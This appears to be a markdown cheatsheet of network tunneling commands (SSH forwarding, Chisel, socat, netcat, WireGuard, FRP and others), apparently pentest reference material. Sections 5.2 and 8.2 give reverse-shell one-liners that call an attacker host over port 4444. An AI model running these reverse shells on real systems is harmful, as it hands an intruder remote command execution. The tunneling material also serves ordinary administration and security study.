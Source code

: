 # Tunneling Cheatsheet

## 1. **SSH Tunneling**

### 1.1 **Local Port Forwarding**
Forward local port to a remote service.
```sh
ssh -L <local_port>:<remote_host>:<remote_port> user@remote_host
```
Example:
```sh
ssh -L 8080:127.0.0.1:3306 user@server.com
```
Access MySQL on localhost:8080.

### 1.2 **Remote Port Forwarding**
Expose a local service to a remote machine.
```sh
ssh -R <remote_port>:<local_host>:<local_port> user@remote_host
```
Example:
```sh
ssh -R 9000:127.0.0.1:22 user@server.com
```
Access local SSH via `server.com:9000`.

### 1.3 **Dynamic Port Forwarding (SOCKS Proxy)**
```sh
ssh -D <local_port> user@remote_host
```
Example:
```sh
ssh -D 9050 user@server.com
```
Configure browser proxy: `socks5://127.0.0.1:9050`

---

## 2. **SSHuttle (VPN-like SSH Tunnel)**
```sh
sshuttle -r user@remote_host 0/0
```
For specific IP ranges:
```sh
sshuttle -r user@remote_host 192.168.1.0/24
```

---

## 3. **Chisel (Reverse HTTP Tunnel)**
### 3.1 **Setup Chisel Server**
```sh
./chisel server --reverse --port 8000
```
### 3.2 **Client Connection (Forward Mode)**
```sh
./chisel client <server>:8000 <local_port>:<remote_host>:<remote_port>
```
Example:
```sh
./chisel client server.com:8000 8080:127.0.0.1:80
```
### 3.3 **Client Connection (Reverse Mode)**
```sh
./chisel client --reverse <server>:8000 R:<remote_port>:<local_host>:<local_port>
```
Example:
```sh
./chisel client --reverse server.com:8000 R:9000:127.0.0.1:22
```

---

## 4. **Ngrok (Expose Local Services Publicly)**
### 4.1 **HTTP Tunnel**
```sh
ngrok http 80
```
### 4.2 **TCP Tunnel**
```sh
ngrok tcp 22
```

---

## 5. **Socat (Advanced Port Forwarding & Proxying)**
### 5.1 **Simple Port Forwarding**
```sh
socat TCP-LISTEN:<local_port>,fork TCP:<remote_host>:<remote_port>
```
Example:
```sh
socat TCP-LISTEN:8080,fork TCP:127.0.0.1:80
```
### 5.2 **Reverse Shell over TCP**
```sh
socat TCP:<attacker_ip>:4444 EXEC:/bin/bash
```
### 5.3 **Proxying Between Two Ports**
```sh
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
```

---

## 6. **Metasploit Auto-SSH Tunneling**
```sh
use auxiliary/server/ssh
set SRVPORT 2222
set SRVHOST 0.0.0.0
run
```

---

## 7. **Rinetd (Static Port Forwarding)**
### 7.1 **Configure `/etc/rinetd.conf`**
```
0.0.0.0 8080 192.168.1.100 80
```
Restart rinetd:
```sh
service rinetd restart
```

---

## 8. **Port Forwarding via Netcat**
### 8.1 **Basic TCP Forwarding**
```sh
mkfifo /tmp/f; nc -l -p 8080 < /tmp/f | nc target.com 80 > /tmp/f
```
### 8.2 **Reverse Shell**
```sh
nc -e /bin/sh attacker.com 4444
```

---

## 9. **AutoSSH (Persistent SSH Tunnel)**
```sh
autossh -M 0 -N -R 9000:localhost:22 user@remote_host
```

---

## 10. **WireGuard VPN (Simple & Secure VPN)**
### 10.1 **Setup WireGuard Server**
Edit `/etc/wireguard/wg0.conf`:
```
[Interface]
Address = 10.0.0.1/24
PrivateKey = <server_private_key>
ListenPort = 51820

[Peer]
PublicKey = <client_public_key>
AllowedIPs = 10.0.0.2/32
```
Enable WireGuard:
```sh
wg-quick up wg0
```
### 10.2 **Setup WireGuard Client**
Edit `/etc/wireguard/wg0.conf`:
```
[Interface]
Address = 10.0.0.2/24
PrivateKey = <client_private_key>

[Peer]
PublicKey = <server_public_key>
Endpoint = <server_ip>:51820
AllowedIPs = 0.0.0.0/0
```
Start the VPN:
```sh
wg-quick up wg0
```

---

## 11. **FRP (Fast Reverse Proxy)**
### 11.1 **Server Configuration (`frps.ini`)**
```
[common]
bind_port = 7000
```
Start FRP server:
```sh
./frps -c frps.ini
```
### 11.2 **Client Configuration (`frpc.ini`)**
```
[common]
server_addr = <server_ip>
server_port = 7000

[ssh]
type = tcp
local_port = 22
remote_port = 9000
```
Start FRP client:
```sh
./frpc -c frpc.ini
```
Access SSH via `server_ip:9000`

---

## Conclusion
This cheatsheet covers various tunneling techniques using SSH, Chisel, Ngrok, Socat, and other tools. Choose the method based on your requirements (port forwarding, reverse shells, VPN-like tunneling, etc.).
